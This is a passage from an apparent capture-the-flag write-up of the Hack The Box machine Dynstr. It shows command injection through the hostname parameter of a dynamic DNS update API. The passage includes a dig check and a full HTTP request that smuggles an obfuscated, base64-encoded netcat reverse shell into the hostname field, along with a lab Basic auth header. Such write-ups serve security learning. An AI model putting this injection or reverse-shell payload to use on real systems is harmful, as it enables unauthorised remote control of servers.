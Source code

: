 As it mentions that `nsupdate` has failed with the payload sent (in this case `-1.no-ip.htb`) this means that the API triggers this binary in a non-interactive way. Doing some research, I have found on this page [Using the dynamic DNS editor, nsupdate (rtfm-sarl.ch)](https://www.rtfm-sarl.ch/articles/using-nsupdate.html) some examples of usage that could be hijacked to get code execution in the backend, once it accepts standard input, which might be the way used in the automation that updates DNS entries in the zones.

To prove if this is correct, I made a simple test, encapsulating the commands I wanted to be executed in `$()`, and checked the DNS entry using `dig`, which returned success.

![HTB Dynstr - OS Code injection payload](https://i.imgur.com/r5qrIOo.png){: .align-center}

```bash
$ dig @10.10.10.244 mytestsubdomain.no-ip.htb

; <<>> DiG 9.16.15-Debian <<>> @10.10.10.244 mytestsubdomain.no-ip.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 20816
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: c46a9e70a58d51c501000000611a665bf50e119ef07ea985 (good)
;; QUESTION SECTION:
;mytestsubdomain.no-ip.htb.     IN      A

;; ANSWER SECTION:
mytestsubdomain.no-ip.htb. 30   IN      A       10.10.10.11

;; Query time: 68 msec
;; SERVER: 10.10.10.244#53(10.10.10.244)
;; WHEN: Mon Aug 16 10:21:33 -03 2021
;; MSG SIZE  rcvd: 98
```

Now that we have confirmed that we can get code execution this way, modified the request to start a reverse shell using a base64 encoded payload, avoiding encoding issues

```http
GET /nic/update?myip=10.10.10.11&hostname=%24%28%65%63%68%6f%20%63%6d%30%67%4c%33%52%74%63%43%39%6d%4f%32%31%72%5a%6d%6c%6d%62%79%41%76%64%47%31%77%4c%32%59%37%59%32%46%30%49%43%39%30%62%58%41%76%5a%6e%77%76%59%6d%6c%75%4c%33%4e%6f%49%43%31%70%49%44%49%2b%4a%6a%46%38%62%6d%4d%67%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%49%78%49%44%51%30%4e%44%4d%67%50%69%39%30%62%58%41%76%5a%67%3d%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%29.no-ip.htb HTTP/1.1
Host: 10.10.10.244
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Authorization: Basic ZHluYWRuczpzbmRhbnlk
```
